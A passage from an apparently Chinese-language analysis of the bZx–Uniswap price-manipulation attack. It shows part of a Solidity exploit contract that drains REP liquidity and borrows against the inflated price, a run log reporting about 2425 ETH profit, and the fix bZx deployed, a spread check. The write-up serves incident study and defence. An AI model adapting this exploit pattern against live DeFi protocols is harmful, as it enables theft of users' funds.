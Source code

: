 ```javascript
        UniswapLike uniswap = REP.getUniswapExchange();
        uint totalSupply = REP.balanceOf(address(uniswap));
        uint borrowAmount = totalSupply * 90 / 100;
        REP.getFromUniswap(borrowAmount);
        printf("making order totalSupply=%.18u borrowed=%.18u\n", abi.encode(totalSupply, borrowAmount));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_ETH, true, BZX_ETH.marketLiquidity(), WETH, REP);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
    function cleanup() external {
        REP.giveAllToUniswap();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        WETH.deposit.value(amount)();
    }
}

/*
### running script "bzx-uniswap-exploit" at block 8547500
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=10.000000000000000000 rate=0.057621091203633720 slippage=0.055892458467524708
##### calling: makeOrder()
making order totalSupply=8856.102959786215028808 borrowed=7970.492663807593525927
##### calling: checkRates()
checking rates tokens=10.000000000000000000 rate=5.656379870360426078 slippage=5.486688474249613295
##### calling: borrow()
collateral_required=702.265284613341236862, interest_required=205.433213643594588344
borrowing loanHash=0x947839881794b73d61a0a27ecdbe8213f543bdd4f4a578eedb5e1be57221109c
##### calling: cleanup()
##### calling: checkProfits()
profits=2425.711777227580307468
#### finished executing step: exploit
*/
```

#### 使用解决方案

bZx团队针对上一次攻击还原了其更改，而是实施了价差检查，这样，如果价差超过某个特定阈值，则贷款将被拒绝。

只要查询的两个代币在Kyber上具有至少一个不可操纵的储备金，该解决方案就可以处理通用情况，当前所有白名单代币都属于这种情况。
